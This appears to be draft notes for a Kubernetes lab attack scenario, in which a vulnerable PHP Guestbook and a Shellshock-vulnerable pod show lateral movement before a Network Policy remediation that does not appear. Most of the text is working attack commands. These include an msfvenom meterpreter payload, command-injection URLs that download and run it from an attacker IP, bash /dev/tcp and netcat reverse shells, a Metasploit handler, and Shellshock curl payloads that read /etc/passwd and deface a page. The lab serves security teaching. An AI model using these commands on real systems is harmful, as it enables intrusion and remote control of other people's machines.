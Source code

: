 > :memo: NOTE
>
> This attack scenario consist of mainly two steps taken from existing scenarios available on the web:
> * [Attacking Kubernetes Episode 1 by Jay Beal](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/)
> * [Running a compromised pod by Liz Rice](https://tutorial.kubernetes-security.info/compromise/)
>
> HOWEVER, **substantial** changes were needed to make these examples suitable to our scenario. In addition, all the content regarding Network Policies had to be adapted to our needs.

The attack scenario will be described next.

Having several workloads in a cluster without support for Network Policies, lateral movement can be carried out in 2 ways:
* East-West (move through the internal Network of Pods)
* North-South (move out of the cluster -Egress Traffic-)

The idea of this attack, and later remediation will be to illustrate how an attacker can perform such malicious actions and how to prevent it by enforcing proper Network Policies.

# Cluster setup

## Setting up vulnerable PHP Guestbook

> :memo: NOTE
>
> This vulnerable workload will be the Initial Access.

References:
* list of references here

PHP Guestbook:
https://kubernetes.io/docs/tutorials/stateless-application/guestbook/

NetworkPolicies for PHP Guestbook:
https://betterprogramming.pub/k8s-network-policy-made-simple-with-cilium-editor-a5b55781291c

Exploitation for Initial Access:
https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/


https://hub.docker.com/search?q=jaybeale&type=image
https://hub.docker.com/r/jaybeale/guestbook-frontend-with-statusphp-vuln

-------------------------------------------------------

$ msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.124 LPORT=4444 -e x64/zutto_dekiru -o rshell -f elf

download 'rshell' file
http://localhost:8080/guestbook.php?cmd=set&key=command&value=curl http://192.168.1.124:8888/rshell

add execution permissions to 'rshell'
http://localhost:8080/guestbook.php?cmd=set&key=command&value=chmod 755 rshell

execute 'rshell'
http://localhost:8080/guestbook.php?cmd=set&key=command&value=./rshell

-------------------------------------------------------

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
https://security.stackexchange.com/questions/159279/segmentation-fault-in-shellcode


https://github.com/egernst/gb-frontend-kata
https://github.com/GoogleCloudPlatform/kubernetes-engine-samples/blob/master/guestbook/php-redis/Dockerfile



http://localhost:8080/guestbook.php?cmd=set&key=command&value=bash -i >& /dev/tcp/192.168.1.124/4444 0>&1

http://localhost:8080/guestbook.php?cmd=set&key=command&value=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.124 4444 >/tmp/f

http://localhost:8080/guestbook.php?cmd=set&key=command&value=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 192.168.1.124 4444 >/tmp/f



use exploit/multi/handler
set payload
set LHOST 0.0.0.0
run

## Setting up a Shellshockable workload

https://github.com/aquasecurity/shellshockable
helm template vuln-bash tmp/shellshockable > deployments/shellshockable/shellshockable.yaml
https://github.com/lizrice/shellshockable/blob/master/Dockerfile

# Lateral movement

## Getting a reverse shell on

## Shellshock vulnerability

* https://en.wikipedia.org/wiki/Shellshock_(software_bug)#Initial_report_(CVE-2014-6271)
* https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/

-----------------------------------------------------

Basic recon:

curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/hostname" vuln-bash-shellshockable/cgi-bin/shockme.cgi

curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/os-release" vuln-bash-shellshockable/cgi-bin/shockme.cgi

curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /usr/bin/whoami" vuln-bash-shellshockable/cgi-bin/shockme.cgi

curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" vuln-bash-shellshockable/cgi-bin/shockme.cgi

----------

Uploading content to the server

curl vuln-bash-shellshockable/ryuzakyl.html

curl -A "() { :; }; echo \"Content-type: text/plain\"; echo 'You have been pwned' > /var/www/html/ryuzakyl.html" vuln-bash-shellshockable/cgi-bin/shockme.cgi

----------

Outside connectivity

curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/ping -c 4 www.google.com" vuln-bash-shellshockable/cgi-bin/shockme.cgi

----------

Other tests

curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; ls -la" vuln-bash-shellshockable/cgi-bin/shockme.cgi

curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /usr/bin/wget http://worldtimeapi.org/api/timezone/Europe/London.txt" vuln-bash-shellshockable/cgi-bin/shockme.cgi

curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat ./London.txt" vuln-bash-shellshockable/cgi-bin/shockme.cgi

